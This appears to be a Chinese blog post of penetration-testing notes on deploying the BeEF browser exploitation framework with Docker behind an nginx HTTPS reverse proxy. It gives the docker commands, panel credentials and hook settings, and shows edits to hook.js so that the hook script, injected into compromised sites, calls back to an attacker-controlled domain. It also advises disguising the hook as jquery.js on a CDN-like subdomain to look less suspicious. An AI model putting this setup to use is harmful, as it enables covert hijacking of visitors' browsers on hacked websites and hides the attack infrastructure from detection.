 ```yaml
---
layout: post
title: Docker安装BeEF并设置反代
tags: [docker,beef,]
category: [渗透笔记,]
excerpt: 使用Docker安装BeEF并设置反向代理，自定义配置
---
```


## 安装



参考此处：[BeEF Installation](https://github.com/beefproject/beef/wiki/Installation)



### 配置文件



可能需要修改：



**用于登陆BeEF面板的用户名和密码** ：

```

credentials:
        user:   "beef"
        passwd: "beef"
```

**Hook 脚本的名字和session_name**（hook.js这个名字太敏感了）：

```
        hook_file: "/hook.js"
        hook_session_name: "BEEFHOOK"
```



**WebUI 的路径**：

```
extension:
        admin_ui:
            enable: true
            base_path: "/ui"
```



### docker 部署



按照安装说明中的Docker部分。我们只需要：



1. 修改配置文件

2. 封装docker镜像

3. 启动docker容器



三步即可。



```

docker build -t beef .
docker run -p 3000:3000 -p 6789:6789 -p 61985:61985 -p 61986:61986 --name beef beef
```



## 反向代理



如果直接部署，我们可能面临以下问题：



1. beef本身使用http协议，在现代浏览器的安全策略下，如果被侵入站点启用https，则beef的hook脚本无法加载。（虽说可以加证书，但为其单独申请，可能没必要）
2. 暴露beef服务器，显得有些猖狂。
3. 可以使用域名，降低可疑程度。


### 实施



首先，需要修改配置文件。在配置文件中，http -> public 这个参数下，保存beef对外提供服务使用的域名。



```
http:
        public: "www.domain.com"

```



另外，需要配置nginx：



```
server_name www.domain.com;
    location / {
                proxy_pass http://localhost:3000/;
    }

```

写成这样就能使用，如果需要其他配置，可以自己加。



**注意**

这样配置，可能会导致 hook 脚本内的请求地址与实际地址不匹配。需要修改 hook.js ，并绕开beef，单独提供。



修改一，修改下述位置的 `script.src` 为反向代理后的位置：



```
    hookChildFrames: function () {
        // create script object
        var script = document.createElement('script');
        script.type = 'text/javascript';
        script.src = 'https://www.domain.com/hook.js';

```



修改二，修改下述位置的 `beef.net` 部分，按实际情况修改即可：



```

beef.net = {
    host: "www.domain.com",
    port: "443",
    hook: "/hook.js",
    httpproto: "https",
    handler: '/dh',
    chop: 500,
    pad: 30, //this is the amount of padding for extra params such as pc, pid and sid
    sid_count: 0,
    cmd_queue: [],

```



修改完后，可以正常使用。



## 优化



1. 可以适当修改 hook.js 的名字，比如改成 jquery.js 啥的。
2. 可以选择适当的域名，比如 cdn.domain.com 啥的。



